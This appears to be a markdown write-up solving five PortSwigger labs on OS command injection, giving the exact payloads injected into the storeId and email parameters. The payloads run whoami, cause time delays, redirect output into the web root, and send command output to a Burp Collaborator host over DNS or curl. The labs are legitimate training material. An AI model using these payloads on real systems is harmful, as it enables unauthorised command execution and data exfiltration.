 <!-- omit in toc -->
# OS command injection

<!-- omit in toc -->
## Table of Contents

- [OS command injection, simple case](#os-command-injection-simple-case)
- [Blind OS command injection with time delays](#blind-os-command-injection-with-time-delays)
- [Blind OS command injection with output redirection](#blind-os-command-injection-with-output-redirection)
- [Blind OS command injection with out-of-band interaction](#blind-os-command-injection-with-out-of-band-interaction)
- [Blind OS command injection with out-of-band data exfiltration](#blind-os-command-injection-with-out-of-band-data-exfiltration)

## OS command injection, simple case
Reference: https://portswigger.net/web-security/os-command-injection/lab-simple

<!-- omit in toc -->
### Quick Solution
Intercept the **check stock** request and modify the ``storeId`` parameter to:
```
%26whoami%26
```
The payload provided by PortSwigger is a little bit different, but the result is the same.

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify a request that checks the stock level.
2. Modify the ``storeID`` parameter, giving it the value ``1|whoami``.
3. Observe that the response contains the name of the current user.

## Blind OS command injection with time delays
Reference: https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays

<!-- omit in toc -->
### Quick Solution
As with the previous lab I used a different payload to solve the lab. I tried the following payload on every parameter of the **Submit feedback** request (until it worked with the ``email`` parameter):
```
%26sleep%2010%26
```

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the ``email`` parameter, changing it to:
```
email=x||ping+-c+10+127.0.0.1||
```
3. Observe that the response takes 10 seconds to return.

## Blind OS command injection with output redirection
Reference: https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection

<!-- omit in toc -->
### Quick Solution
As with the previous lab I used a different payload to solve the lab. I tried the following payload on every parameter of the **Submit feedback** request (until it worked with the ``email`` parameter):
```
%26whoami>whoami.txt%26
```

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the ``email`` parameter, changing it to:
```
email=||whoami>/var/www/images/output.txt||
```
3. Now use Burp Suite to intercept and modify the request that loads an image of a product.
4. Modify the ``filename`` parameter, changing the value to the name of the file you specified for the output of the injected command:
```
filename=output.txt
```
5. Observe that the response contains the output from the injected command.

## Blind OS command injection with out-of-band interaction
Reference: https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band

<!-- omit in toc -->
### Quick Solution
As with the previous lab I used a different payload to solve the lab. I tried the following payload on every parameter of the **Submit feedback** request (until it worked with the ``email`` parameter):
```
%26nslookup%20your-burp-collaborator%26
```

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the ``email`` parameter, changing it to:
```
email=x||nslookup+x.burpcollaborator.net||
```

## Blind OS command injection with out-of-band data exfiltration
Reference: https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration

<!-- omit in toc -->
### Quick Solution
As with the previous lab I used a different payload to solve the lab. I tried the following payload on every parameter of the **Submit feedback** request (until it worked with the ``email`` parameter):
```
%26curl%20your-burp-collaborator/$(whoami)%26
```

<!-- omit in toc -->
### Solution
1. Use Burp Suite Professional to intercept and modify the request that submits feedback.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Modify the ``email`` parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:
```
email=||nslookup+`whoami`.YOUR-SUBDOMAIN-HERE.burpcollaborator.net||
```
5. Go back to the Burp Collaborator client window, and click "Poll now". You should see some DNS interactions that were initiated by the application as the result of your payload. If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.
6. Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Burp Collaborator client. The full domain name that was looked up is shown in the Description tab for the interaction.
7. To complete the lab, enter the name of the current user.